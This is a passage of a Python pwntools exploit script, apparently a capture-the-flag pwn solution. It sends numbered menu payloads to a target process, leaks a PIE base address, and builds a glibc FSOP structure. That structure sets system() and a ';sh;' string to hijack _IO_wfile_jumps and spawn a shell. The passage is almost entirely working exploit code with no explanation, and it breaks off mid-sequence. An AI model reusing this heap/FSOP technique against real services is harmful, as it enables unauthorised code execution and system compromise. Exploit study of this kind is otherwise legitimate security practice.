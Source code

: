 ```python
p.send(payload) 
sleep(0.01)

#11
payload = p64(3)
payload += p64(0)
payload = payload.ljust(0x40, b"\x00")

p.send(payload) 
sleep(0.01)

#12
payload = p64(3)
payload += p64(1)
payload = payload.ljust(0x40, b"\x00")

p.send(payload) 
sleep(0.01)

#13
payload = p64(2)
payload = payload.ljust(0x40, b"\x00")

p.send(payload) 
sleep(0.01)

p.recvn(1)

pie_base = u64(p.recvn(8)) - 0x4040
log.info("pie_base : "+hex(pie_base))     

#14
payload = p64(7)
payload += p64(0)
payload += p64(pie_base + 0x4040)
payload = payload.ljust(0x40, b"\x00")

p.send(payload) 
sleep(0.01)

#15
payload = p64(5)
payload = payload.ljust(0x40, b"\x00")

p.send(payload) 
sleep(0.01)

#fsop
FSOP = FSOP_struct(flags = u64(b"\x01\x01;sh;\x00\x00"), \
        lock            = pie_base + 0x4040 + 0x10, \
        _IO_read_ptr    = 0x0, \
        _IO_write_base  = 0x0, \
        _wide_data      = pie_base + 0x4040 - 0x10, \
        _unused2        = p64(libc.symbols['system'])+ b"\x00"*4 + p64(pie_base + 0x4040 + 196 - 104), \
        vtable          = libc.symbols['_IO_wfile_jumps'] - 0x30, \
        )
FSOP = FSOP.ljust(0x100, b"\x00")

p.send(FSOP)
sleep(0.01)

#16
```